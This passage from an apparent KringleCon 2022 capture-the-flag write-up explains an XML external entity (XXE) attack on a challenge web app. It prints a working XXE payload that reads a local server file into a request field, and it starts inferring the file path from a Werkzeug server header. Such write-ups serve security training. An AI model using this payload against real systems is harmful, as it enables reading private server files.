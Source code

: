 ![Screenshot-from-2022-12-11-21-49-36.png](/kringlecon/2022/Screenshot-from-2022-12-11-21-49-36.png)

The body should now look like the following:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE imgDrop [<!ENTITY xxe SYSTEM "file:///app/static/images/ringlist.txt" >]>
<root>
 <imgDrop>&xxe;</imgDrop>
  <who>princess</who>
  <reqType>xml</reqType>
</root>
```

Here's how the XXE works. The `xxe` entity in the DOCTYPE definiton fetches the
file at the location `/app/static/images/ringlist.txt` and we use this `&xxe;`
entity as replacement for the contents of the `imgDrop` tag.

A valid question would be: why use the path "app/static/images/ringlist.txt"?

First, if we look at any of the response headers, we see the header

```
"server": "Werkzeug/2.2.2 Python/3.10.8"
```
